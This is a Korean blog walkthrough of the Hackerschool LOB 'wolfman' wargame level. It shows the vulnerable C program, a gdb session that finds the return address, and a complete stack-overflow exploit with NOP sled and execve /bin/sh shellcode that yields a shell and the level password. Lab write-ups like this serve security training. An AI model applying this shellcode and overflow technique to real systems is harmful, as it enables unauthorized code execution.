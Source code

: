 ```yaml
---
layout: post
title: "Hackerschool LOB-orc"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/29/
---
```

```bash
login: orc
Password:
[orc@localhost orc]$ ls
wolfman  wolfman.c
[orc@localhost orc]$ cat wolfman.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
전의 orc 문제와 거의 비슷하다.

다른 점이 있다면 가장 밑에 memset이라는 함수를 사용했다는 것이다.

memset(배열 이름, 채울 값, 끝 인덱스) 형식으로 사용되는 함수이다.

시작부터 끝까지 모두 채울 값으로 배열을 초기화한다.

이것은 배열 안에 쉘 코드를 넣을 수 없다는 것을 의미한다.

그래서 이번에 사용할 방법은, RET주소 뒤에 쉘 코드를 넣는 것이다.

nop+RET+nop+쉘 코드의 형식으로 넣으면 배열이 초기화가 된다고 해도 쉘 코드는 남는 것이다.

그러면 주소를 구해보자.
```bash
[orc@localhost orc]$ mkdir tmp
[orc@localhost orc]$ cp wolfman tmp/
[orc@localhost orc]$ cd tmp
```
gdb를 사용하자.
```bash
[orc@localhost tmp]$ gdb -q wolfman
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
...
0x80485b8 <main+184>:   push   %edx
0x80485b9 <main+185>:   lea    %eax,[%ebp-40]
0x80485bc <main+188>:   push   %eax
0x80485bd <main+189>:   call   0x8048440 <strcpy>
0x80485c2 <main+194>:   add    %esp,8

```
ma+189에서 strcpy가 되므로 그 아래, main+194에 break를 걸자.
```bash
(gdb) b*main+194
Breakpoint 1 at 0x80485c2
(gdb) r $(python -c 'print"\xbf"*48+"A"*100')
Starting program: /home/orc/tmp/wolfman $(python -c 'print"\xbf"*48+"A"*100')

Breakpoint 1, 0x80485c2 in main ()
```
뒤의 A는 넣을 쉘 코드라고 생각하자.
```bash
(gdb) x/300x $esp
0xbffffa54:     0xbffffa60      0xbffffbe1      0x00000016      0xbfbfbfbf
0xbffffa64:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffa74:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffa84:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0x41414141
...
0xbffffbe4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbf4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffc04:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0x414141bf
0xbffffc14:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc24:     0x41414141      0x41414141      0x41414141      0x41414141
```
bffffc04에서 A가 보이므로 이곳을 RET 주소로 쓰자.

코드는 nop+44+RET+nop*100(의미는 없고 그냥 적당히)+쉘 코드로 하자.

사용할 24byte 쉘 코드
```bash
\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```bash
[orc@localhost orc]$ ./wolfman $(python -c 'print"\x90"*44+"\x04\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?퓧릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?픐h//shh/bin됥PS됣솻
        ?
bash$ my-pass
euid = 505
love eyuna
```
성공이다.

orc's password : "love eyuna"
